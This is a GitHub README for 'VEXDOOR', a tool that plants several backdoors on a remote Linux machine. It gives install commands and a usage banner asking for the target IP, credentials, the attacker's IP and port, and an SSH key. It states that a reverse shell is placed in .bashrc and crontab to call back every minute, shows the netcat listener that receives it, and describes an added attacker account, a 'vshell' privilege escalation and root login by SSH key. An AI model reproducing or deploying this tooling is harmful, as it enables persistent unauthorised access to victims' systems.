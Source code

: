 # VEXDOOR

vexdoor is a script created by vex that create a multi backdoors on one linux machine

## Installation

first you need to git the directory

```bash
git clone https://github.com/V33-777/VEXDOOR
```

after that you need to create a ssh public key using this command
```bash
ssh-keygen -t rsa -b 4096
```

now you need to move the public key to vexdoor directory

## SETUP

```bash
chmod +x Requirements.sh
chmod +x vexdoor
./vexdoor
```
atfer that you need just to use -h option to understand how it works:
```bash
VVVVVVVV           VVVVVVVV 333333333333333   XXXXXXX       XXXXXXX      
V::::::V           V::::::V3:::::::::::::::33 X:::::X       X:::::X      
V::::::V           V::::::V3::::::33333::::::3X:::::X       X:::::X      
V::::::V           V::::::V3333333     3:::::3X::::::X     X::::::X      
 V:::::V           V:::::V             3:::::3XXX:::::X   X:::::XXX      
  V:::::V         V:::::V              3:::::3   X:::::X X:::::X         
   V:::::V       V:::::V       33333333:::::3     X:::::X:::::X          
    V:::::V     V:::::V        3:::::::::::3       X:::::::::X           
     V:::::V   V:::::V         33333333:::::3      X:::::::::X         github:https://github.com/V3X-777     
      V:::::V V:::::V                  3:::::3    X:::::X:::::X          discord:s3cdet17
       V:::::V:::::V                   3:::::3   X:::::X X:::::X         
        V:::::::::V                    3:::::3XXX:::::X   X:::::XXX      
         V:::::::V         3333333     3:::::3X::::::X     X::::::X      
          V:::::V          3::::::33333::::::3X:::::X       X:::::X      
           V:::V           3:::::::::::::::33 X:::::X       X:::::X      
            VVV             333333333333333   XXXXXXX       XXXXXXX      
Backdoor Setup Script
---------------------
This script is created by V3X to create multi-backdoors on a remote machine.

Usage: ./try.sh -u <machine_username> -p <password> -U <your_username> -i <target_ip> -I <ip_user> -P <port> -k <public_key>
Options:
  -u <target_username>      : Remote machine username
  -P <password>              : Password for remote machine
  -U <your_username>         : Your username
  -I <your_ip>               : Your IP address
  -i <ip_target>               : IP target
  -p <port>                  : Port number
  -k <public_key>            : Path to SSH public key file

```
# USAGE
waiting to receive your revshell cuz i put your revshell in the .bashrc and in crontab so after 1 min you will receive it
```bash
[vex👽>  ]$ nc -lnvp "your port"
```
you can connect to the ssh with your user that you put it in the first 
```bash
[vex👽>  ]$ ssh username@ip
```
there is another trick if you find a way to entre to the machine you can high your privilege with this command
```bash
[vex👽>  ]$ vshell
```
you can login to the ssh by your id_rsa 
```bash
[vex👽>  ]$ ssh -i id_rsa root@ip
